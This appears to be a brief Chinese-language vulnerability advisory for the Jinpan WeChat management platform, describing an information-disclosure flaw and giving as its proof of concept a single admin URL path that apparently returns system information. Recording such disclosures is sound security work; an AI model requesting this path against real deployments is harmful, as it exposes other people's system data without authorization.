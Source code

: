 #### 影响范围

金盘微信管理平台

#### 漏洞概述

金盘微信管理平台信息泄露漏洞

#### 漏洞复现

漏洞POC：

```
 /admin/weichatcfg/getsysteminfo
```

